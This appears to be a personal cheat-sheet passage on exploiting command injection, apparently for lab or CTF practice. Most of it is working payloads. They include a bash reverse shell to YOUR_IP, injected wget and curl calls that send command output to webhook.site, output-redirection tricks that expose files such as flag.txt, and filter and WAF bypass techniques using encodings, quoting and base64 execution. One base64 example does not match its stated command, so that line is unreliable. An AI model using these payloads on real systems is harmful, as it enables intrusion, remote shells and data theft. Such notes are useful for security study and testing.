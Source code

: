 If this doesn't work:
1. Confirm vulnerability by starting your Python server again and sending: `ProductID=1||wget http://www.webhook.site/your-site||`
2. If this is vulnerable, you can connect to reverse shells, or execute commands and send them back to your website:

**Reverse Shell:**
`ProductID=1||bash -c 'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1'||

**Sending Commands:**
``ProductID=1||curl http://`whoami`.webhook.site/your-id||``
#### Output Redirection
1. Try to send a command, or information from another resource to an accessible location:
```shell
& whoami > /var/www/static/whoami.txt &
```
or
```shell
& cat flag.txt > ./uploads/image.jpg &
```
### Filter / WAF Detection
If we receive `invalid input` when sending payloads, we now a security mechanism is in place detecting a blacklisted character or command.
#### Testing Blacklisted Characters
1. Reduce our input to 1 character at a time (ex: `;`)
	- If it still gets blocked, we know that character is blocked now
2. Try replacing that character with the URL-encoded version (ex: `%3b`)
3. If its still blocked, refer to the below cheatsheet:

| Code                    | Description                                                                        |
| ----------------------- | ---------------------------------------------------------------------------------- |
| `printenv`              | Can be used to view all environment variables                                      |
| **Spaces**              |                                                                                    |
| `%09`                   | Using tabs instead of spaces                                                       |
| `${IFS}`                | Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. `$()`) |
| `{ls,-la}`              | Commas will be replaced with spaces                                                |
| **Other Characters**    |                                                                                    |
| `${PATH:0:1}`           | Will be replaced with `/`                                                          |
| `${LS_COLORS:10:1}`     | Will be replaced with `;`                                                          |
| `$(tr '!-}' '"-~'<<<[)` | Shift character by one (`[` -> `\`)                                                |
#### Testing Blacklisted Commands
If a command is blacklisted:
1. Try inserting characters within our command:
	- `w'h'o'am'i` or `w"h"o"am"i`
	- `who$@ami` or `w\ho\am\i`
2. Try manipulating past the filter to execute the command:
	- `$(a="WhOaMi";printf %s "${a,,}")` or `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")`
	- `$(rev<<<'imaohw')`
3. Try encoding the command then executing:
	- `echo -n 'whoami' | base64` -> `Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==`
	- Then use: `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)`
4. Try using automated tools to obfuscate commands such as [[Cybersecurity/Web App Security/Web Application Testing/3. Input-Based Attacks/2. Command Injection/Filter Evasion/2. Bypassing Blacklisted Objects#Linux (Bashfuscator)]]
